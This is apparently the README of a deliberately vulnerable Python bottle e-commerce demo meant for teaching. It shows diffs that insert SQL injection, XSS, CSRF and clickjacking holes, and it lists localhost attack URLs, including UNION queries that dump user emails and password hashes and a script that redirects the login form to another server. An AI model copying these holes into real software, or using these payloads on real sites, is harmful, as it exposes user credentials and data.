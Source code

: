 # bottle-store
 EC site example using Python bottle.

# SQL Injection

```diff:app.py
-        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE ?;", ("%" + query + "%",)).fetchall()
+        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE %'" + query + "%'").fetchall()
```

```
http://localhost:8080/products?q='
```

```
http://localhost:8080/products?q='--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, tbl_name, 1, 1, 1, 1 FROM sqlite_master--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, id, email, 1, hashed_password, nickname FROM users--
```

# Reflected XSS

```diff:app.py
-<p style="color:red;"> {{ message }} </p>
+<p style="color:red;"> {{ !message }} </p>
```

```
http://localhost:8080/login?message=<s>hello</s>
```

```
http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://localhost:8081/users'}</script>
```

# CSRF and Persistent XSS

```diff:app.py
-    if form_token != cookie_token:
-        abort(400, '不正なアクセスです。')
+    #if form_token != cookie_token:
+    #    abort(400, '不正なアクセスです。')
```

```
http://localhost:8081/evil_game1
```

```diff:app.py
-        <li>{{ comment }}</li>
+        <li>{{ !comment }}</li>
```

```
http://localhost:8081/evil_game2
```

# Clickjacking

```diff:app.py
-    response.headers['X-Frame-Options'] = 'DENY'
+   response.headers['X-Frame-Option'] = 'DENY'
```

```
http://localhost:8081/evil_game3
```

# DOM based XSS

